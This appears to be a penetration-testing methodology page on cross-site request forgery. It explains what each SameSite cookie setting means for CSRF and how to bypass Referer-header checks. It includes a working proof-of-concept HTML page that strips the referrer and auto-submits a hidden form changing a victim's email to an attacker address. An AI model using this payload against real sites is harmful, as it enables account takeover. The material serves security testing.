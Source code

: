 ## CSRF Methodology
<br/>

**Step 1**<br/>
The first thing to check in a CSRF attack is the security headers on the session cookie.
#### `SameSite=Strict` - CSRF Not Possible

```html
Set-Cookie: SessionId=CfDJ8MWK4x...; samesite=strict;
```

#### `SameSite=LAX` - CSRF Only Possible on GET Request

```html
Set-Cookie: SessionId=CfDJ8MWK4x...; samesite=lax;
```

#### `SameSite=NONE` - CSRF Possible

```html
Set-Cookie: SessionId=CfDJ8MWK4x...; samesite=none;
```

**Step 2**<br/>
Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. The following are possible bypasses for the Referer header based CSRF protection.

1) *Referer Header Omitted*<br/>
Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted. We can strip the referer using the following META tag.

```html
<meta name="referrer" content="never">
```

*PoC*
```html
<html>
    <body>
        <meta name="referrer" content="never">
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

